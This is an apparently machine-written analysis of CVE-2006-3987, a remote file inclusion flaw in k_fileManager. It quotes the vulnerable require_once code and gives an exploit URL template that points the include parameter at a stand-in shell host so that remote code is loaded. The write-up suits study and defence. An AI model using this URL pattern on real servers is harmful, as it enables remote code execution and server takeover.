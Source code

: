 Based on the provided content, here's an analysis of CVE-2006-3987:

**Root Cause of Vulnerability:**
- The vulnerability is a Remote File Inclusion (RFI) vulnerability.
- The `dwl_include_path` parameter in `index.php` is not properly sanitized.
- The application uses the user-supplied `dwl_include_path` parameter to include files, leading to the RFI.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The application includes files based on user-supplied input without proper validation. This allows an attacker to include malicious remote files.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** Successful exploitation of this vulnerability allows an attacker to execute arbitrary code on the server by including a malicious remote file (e.g. a web shell).
- **Complete compromise:**  This can lead to a complete compromise of the vulnerable server, enabling the attacker to steal sensitive data, modify website content, or use the server as a launching point for other attacks.

**Attack Vectors:**
- The vulnerability can be exploited via a specially crafted HTTP GET request.
- The attacker needs to supply a malicious URL to the vulnerable `dwl_include_path` parameter via the query string in `index.php`.

**Required Attacker Capabilities/Position:**
- The attacker can be remote and does not require any specific access to the server other than the ability to send HTTP requests to the vulnerable application.
- The attacker needs a location to host a malicious PHP file to be included.

**Technical Details:**
- The vulnerable code snippet shows the following:
```php
#//  INCLUDE PATH
#@define("DWL_INCLUDE_PATH",$dwl_include_path);
#//  INCLUDE PATH
#//**********************************************************
#
#//Dateien importieren
#       require_once(DWL_INCLUDE_PATH."inc/config.inc.php");
#       require_once(DWL_INCLUDE_PATH."lang/".FM_LANGUAGE."/lang.inc.php");
#       require_once(DWL_INCLUDE_PATH."inc/Dwl_template.php");
#       require_once(DWL_INCLUDE_PATH."inc/Dwl_db.php");
#       require_once(DWL_INCLUDE_PATH."inc/Dwl_directory.php");
#       require_once(DWL_INCLUDE_PATH."inc/Dwl_stuff.php");
#       require_once(DWL_INCLUDE_PATH."inc/Dwl_statistic.php");
```
- This snippet shows that the `dwl_include_path` is defined based on user input, then directly used in `require_once()` calls without prior checks or sanitization.
- The exploit URL is in the form of:
`http://sitename.com/[Script Path]/index.php?dwl_include_path=http://SHELLURL.COM?`

**Additional Notes:**
- The affected application is k_fileManager version 1.2 and earlier
- The exploit was discovered by SHiKaA and published on milw0rm.com on 2006-08-01